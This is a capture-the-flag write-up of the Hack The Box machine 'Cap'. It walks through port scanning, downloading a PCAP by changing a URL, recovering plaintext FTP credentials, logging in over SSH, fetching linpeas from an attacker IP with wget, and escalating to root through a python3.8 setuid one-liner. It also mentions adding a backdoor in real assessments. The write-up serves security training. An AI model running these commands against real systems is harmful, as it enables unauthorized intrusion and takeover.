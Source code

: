 ```yaml
---
title: "HTB | CAP"
date: 2024-08-12 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Exposed credentials in PCAP file leads to SSH Access

**Vulnerability Explanation:** A webpage on port 80 allows for a download of a PCAP file. The PCAP file contains valid credentials for user 'nathan'. Access to the target machine can be gained through SSH and the valid credentials.

**Vulnerability Fix:** Credentials for the user 'nathan' are compromised and should be changed immediately. Remove access to the pcap file on the web server. Remove SSH access if not needed. 

**Severity:** Critical

**Steps to reproduce the attack:** Christian found ports 21,22, and 80 open on the target machine. The webpage hosted on port 80 had a hidden web page when changing one of the directories from a '2' to a '0'. This allowed for a download of a legitimate pcap file. Christian inspected the pcap file using Wireshark and discovered credentials **nathan:Buck3tH4TF0rm3!**. The credentials were used to gain access to the target machine via SSH.

**Port Scan Results**

**TCP:** 21,22,80

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 21, 22, 80 were discovered.

```shell
nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.245
```

![img-description](/assets/img/HTB/CAP/1.png)

The web page on port 80 is hosting what looks like a security dashboard of some kind. A page linking to something related to a PCAP file looks interesting. 

![img-description](/assets/img/HTB/CAP/2.png)

Navigating to it reveals a download of a pcap file. The one on this page is empty, however, modifying the url to a '0' instead of a '2' reveals a valid page. Download the valid pcap file.

```
10.10.10.245/data/0
```

![img-description](/assets/img/HTB/CAP/3.png)
![img-description](/assets/img/HTB/CAP/4.png)

Move the pcap into the working directory on Kali then open it with wireshark.

```shell
wireshark 0.pcap
```

![img-description](/assets/img/HTB/CAP/5.png)

Scrolling down, we can see some FTP traffic. Right-click on it and follow the stream to see the full conversation.

![img-description](/assets/img/HTB/CAP/6.png)

Credentials **nathan:Buck3tH4TF0rm3!** can be found in the TCP Stream and can be successfully used to access the machine via SSH.

![img-description](/assets/img/HTB/CAP/7.png)

```shell
ssh nathan@10.10.10.245
```

![img-description](/assets/img/HTB/CAP/8.png)

We have successfully gained initial access as user 'nathan'.


## Privilege Escalation - Setuid in Python + GTFObins leads to Root Access

**Vulnerability Explanation:** The binary for python3.8 has capabilities set. This allows for privilege escalation using the command given from GTFObins.

**Vulnerability Fix:** Remove the binary if not needed. Remove its capabilities if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian transferred linpeas.sh to the target machine to perform enumeration. 'python3.8' was found to have its capabilities set. A set of commands was discovered on GTFObins to use this to elevate user to 'root'.

Upload linpeas to the target machine and run it.

```shell
wget http://10.10.16.2:8888/linpeas.sh .
```

```shell
chmod +x linpeas.sh
```

```shell
./linpeas.sh > linpeas.output
```

![img-description](/assets/img/HTB/CAP/9.png)

Setuid capabilities is set for binary 'python3.8'. And exploit can be found for this on GTFObins.
* https://gtfobins.github.io/gtfobins/python/#capabilities

![img-description](/assets/img/HTB/CAP/10.png)

![img-description](/assets/img/HTB/CAP/11.png)

Tweak the command to fit the binary and run it to gain root access to the machine.

```shell
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![img-description](/assets/img/HTB/CAP/12.png)

## Post Exploitation

Since this is a CTF the objective is only to retrieve the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.